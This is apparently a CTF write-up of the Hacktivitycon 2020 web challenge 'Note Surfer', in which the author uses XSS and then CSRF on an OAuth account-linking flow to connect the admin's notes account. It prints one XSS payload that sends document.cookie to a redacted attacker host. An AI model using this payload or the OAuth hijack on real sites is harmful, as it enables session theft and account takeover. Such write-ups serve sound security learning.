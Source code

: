 ```yaml
---
title: Note Surfer
date: 2020-12-29
excerpt: "'Note Surfer' was a challenge in the Web category of Hacktivitycon"
classes: wide
categories: Hacktivitycon2020
tags:
  - hacktivitycon
  - CSRF
  - XSS
  - web
---
```


![img](/assets/images/ctf/hacktivitycon-web-notesurfer/0.png)


![img](/assets/images/ctf/hacktivitycon-web-notesurfer/1.png)


Sticky notes app. There's a couple interesting things to note here. Link with OAuth and Report a problem.  

Checking out 'Report a problem' first



![img](/assets/images/ctf/hacktivitycon-web-notesurfer/2.png)


So this got me thinking. If the admin is looking into it, maybe there's some kind of vulnerability on the back end.



I fired up my VPS and started a php session to see if I could steal some cookies



Reported this payload as a problem:



`<img src=x onerror=document.location="http://REDACTED/cookie.php?c="+document.cookie>`



![img](/assets/images/ctf/hacktivitycon-web-notesurfer/3.png)


So XXS is in play, but the cookies are set to HttpOnly. No dice there.



The title of the challenge is a big hint on what to do next:



Cross Site Request Forgery or CSRF (Sea Surf) for short



I assumed that it had something to do with OAuth, so I fired up burp to capture the requests



![img](/assets/images/ctf/hacktivitycon-web-notesurfer/4.png)


Forwarding the first request leaves us with the second.



![img](/assets/images/ctf/hacktivitycon-web-notesurfer/5.png)


After some testing I noted that the 'code' variable is one use. So I set this request to repeater and dropped it.



Right click anywhere on the request and 'Copy URL'



Back on the sticky notes app, we can report another problem



![img](/assets/images/ctf/hacktivitycon-web-notesurfer/6.png)


Send that off and then logging into our OAuth account we can see that we're now connected with the Admin sticky notes account



![img](/assets/images/ctf/hacktivitycon-web-notesurfer/7.png)
